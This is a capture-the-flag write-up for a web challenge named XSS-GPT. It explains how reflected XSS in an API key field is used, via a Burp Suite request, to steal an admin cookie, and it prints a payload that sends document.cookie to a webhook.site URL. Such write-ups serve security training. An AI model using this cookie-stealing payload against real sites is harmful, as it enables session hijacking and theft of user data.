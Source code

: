 ## XSS-GPT
![image](https://github.com/user-attachments/assets/8479e899-7598-44fc-b4e0-c80bac8e3c72) <br>

# Description :
I built a chatgpt website using chatgpt. Feel free to try it! Remember to report to me if you found any bug

# Solution :

![image](https://github.com/user-attachments/assets/cd35f7db-48be-43b8-853f-879741ba8250) <br>
The challenge will bring us to a link that looks like chatgpt. I'm not allow to progress further as it says I do not have the API key but we can see that we have a lead that we can 
try to tamper with the API key value with other things
<br>
<br>

![image](https://github.com/user-attachments/assets/cc0c29db-0c5c-4645-bf5b-f5ed15d8480d) <br>
Since the challenge says XSS GPT, I try it rit away and it worked.A little changes is that the XSS payload needs to starts with the closing of </script> else it will not work because the API key part is wrap inside the JS script
<br>
<br>

![image](https://github.com/user-attachments/assets/08b40eda-e0a7-4b3d-9e32-d0166ff15083) <br>
XSS is a success and now we will look for a place to exploit it and get the API key. When going thru the reportAdmin() function will send a POST request to the API's endpoint along with the key. 
<br>
<br>

![image](https://github.com/user-attachments/assets/ce4526ba-a301-4ddc-900a-4b3a7e797624) <br>
Fire up BurpSuite and capture the reportAdmin request and send it to Repeater, we can see that is a POST request and the key is an empty value. With these 2, we can use the webhook method. Our solution will be sending our XSS payload inside the POST request and get the latest changes happen in webhook.site hosting service
<br>
<br>
![image](https://github.com/user-attachments/assets/ca3034f4-b787-4524-9719-41c0d465c2fc) <br>
Search webhook.site, by default they will prepare a hosting site for you, copy it and paste it in BurpSuite
<br>
<br>
![image](https://github.com/user-attachments/assets/66d95877-39ac-4c11-9f66-31f81b186f6d) <br>
We will be using combination of cookie stealing and redirection. To make sure that the request will be redirected to the webhook hosting site we use and steal the cookie.
<br>
<br>
![image](https://github.com/user-attachments/assets/36963aa9-c499-49ef-b70f-9a50613182ea) <br>
The payload will look like this: <br>
</script><script>location.href="https://webhook.site/96439999-db2f-41af-8027-7f1f50a00e31?c="+document.cookie</script> <br>
We encode the payload as URL format because the reportAdmin function specifies the key value must be encodeURIComponent.
<br>
<br>
![image](https://github.com/user-attachments/assets/a1e70c8a-812d-482c-8ecf-d31576d5c866) <br>
Copy the URL encode format XSS payload and replace the null value of the key and send the request. When the Response give you a 200 OK status, we can go to the webhook.site to check for latest changes happen at hosting server.
<br>
<br>
![image](https://github.com/user-attachments/assets/ef6afacc-a7d0-4610-945d-70113e584f18) <br>
The flag is at the quesry string section. Yatta!
<br>
<br>
**FLAG**
```
SKR{R3flec73D_1n_API_k3y_e9bc37}
```
